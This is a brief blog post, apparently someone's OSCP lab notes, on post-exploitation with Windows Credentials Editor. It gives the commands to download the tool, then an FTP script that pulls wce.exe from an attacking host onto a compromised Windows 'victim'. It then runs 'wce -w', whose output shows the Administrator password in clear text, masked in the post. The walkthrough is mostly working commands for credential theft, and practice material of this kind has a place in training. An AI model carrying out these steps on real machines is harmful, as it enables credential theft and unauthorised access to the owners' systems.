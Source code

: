 ```yaml
---
published: true
layout: post
title: WCE post exploitation
---
```






Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

**Victim**:  With ftp server running on attacking box.  Upload wce.exe to victim

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get wce.exe>> ftp.txt
    echo bye>> ftp.txt

**Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:<password>
    RALPH$\THINC.LOCAL:
